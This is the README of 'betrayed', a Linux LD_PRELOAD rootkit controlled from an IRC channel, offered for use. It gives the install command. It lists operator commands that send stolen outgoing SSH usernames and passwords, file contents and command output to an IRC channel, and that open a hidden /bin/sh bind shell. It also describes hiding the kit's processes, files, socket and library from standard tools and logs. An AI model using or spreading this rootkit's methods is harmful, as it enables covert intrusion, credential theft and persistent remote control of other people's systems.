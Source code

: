 # betrayed
### Basic info
betrayed is an LD_PRELOAD Linux rootkit which is controlled mainly from a IRC channel.  
It is free of any dependencies, and installs near enough instantly.  
Files and processes are hidden with a magic GID, and the connection to the IRC server is hidden from plain sight. Tools like `netstat` and `ss` will not show betrayed's socket connection.  
Upon setup, betrayed will begin to fork from newly spawned processes, of course only if there is no other instance of the main process.  
betrayed's code is a very heavily modified and (de)restructured version of bedevil.
#### Usage
`./install.sh irc.host "#channel"` will install betrayed.  
Upon completing installation, install.sh will `cat /dev/null`, which will cause betrayed to execute its initial fork process. Even without doing `cat /dev/null` at the end of the installation, any newly spawned process will initiate the connection to the IRC server.  
<b>Compile only:</b> `COMPILE_ONLY=1 ./install.sh ...` will compile betrayed.so in your cwd.  
When installing, `install.sh` will write `config.h`. After this header is present, simply running `./install.sh` will cause the script to read settings from the header. A new nick and magic GID will be generated.
  
Once installed, and assuming you are in your target channel, you will see a new user with a random nick join your channel. That is essentially the box that you installed betrayed on.
#### Available commands
 * `!ssh_logs [nick]` (reads outgoing SSH logs, sends usernames and passwords to your desired IRC channel)
 * `!sh [nick] [command]` (executes commands on chosen server, and sends command output to the channel)
 * `!read_file [nick] [path]` (sends contents of path to IRC channel)
 * `!bind [nick] [port]` (creates a hidden /bin/sh bind shell on given port which you can connect to)
 * `!kill [nick]/all` (kills chosen iteration of betrayed. removes all respective rootkit files and disconnects)

#### Notes
##### Hiding
 * betrayed hides itself from /proc/\*/maps, smaps, and numa_maps.
 * betrayed hides itself from `ldd`, among others.
 * All betrayed-related processes are hidden.
 * No default systemd logs are created when utilising betrayed.
 * Although `ss` and `netstat` won't show the kit's socket, wireshark or anything else like it will.
##### Misc
 * betrayed's rootkit library is 20k smaller than bedevil's.